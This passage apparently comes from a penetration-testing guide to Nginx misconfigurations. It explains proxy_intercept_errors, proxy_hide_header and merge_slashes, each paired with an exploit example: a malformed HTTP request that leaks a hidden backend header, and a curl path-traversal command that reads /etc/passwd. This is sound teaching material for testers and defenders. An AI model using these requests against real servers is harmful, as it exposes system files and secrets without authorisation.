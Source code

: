 [proxy\_intercept\_errors](http://nginx.org/en/docs/http/ngx\_http\_proxy\_module.html#proxy\_intercept\_errors) will serve a custom response if the backend has a response status greater than 300. In our uWSGI application above, we will send a 500 Error which would be intercepted by Nginx. [proxy\_hide\_header](http://nginx.org/en/docs/http/ngx\_http\_proxy\_module.html#proxy\_hide\_header) is pretty much self explanatory; it will hide any specified HTTP header from the client.
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration in the previous example, if we send an invalid HTTP request, we can leak informations from the backend

```bash
#Send invalid HTTP request
GET /? XTTP/1.1
Host: 127.0.0.1
Connection: close

#Respons with leaked informations
XTTP/1.1 500 Error
Content-Type: text/html
Secret-Header: secret-info

Secret info, should not be visible!
```
{% endtab %}
{% endtabs %}

### Merge\_slashes Set To Off

{% tabs %}
{% tab title="Enumeration" %}
The [merge\_slashes](http://nginx.org/en/docs/http/ngx\_http\_core\_module.html#merge\_slashes) directive is set to `on` by default which is a mechanism to compress two or more forward slashes into one, so `///` would become `/`. If Nginx is used as a reverse-proxy and the application that’s being proxied is vulnerable to local file inclusion, using extra slashes in the request could leave room for exploit it. This is described in detail by [Danny Robinson and Rotem Bar](https://medium.com/appsflyerengineering/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d)
{% endtab %}

{% tab title="Exploit" %}
Because of this missconfiguration, using multiple slashes `///` allow us to exploit that LFI vulnerability successfully.

```bash
curl "http://example.com//////../../../../../etc/passwd"
```
{% endtab %}
{% endtabs %}

### Proxy\_pass Misconfigurations

The `proxy_pass` directive can be used to redirect internally requests to other servers internal or external. The use of this directive isn't a vulnerability but you should check how it's configured.
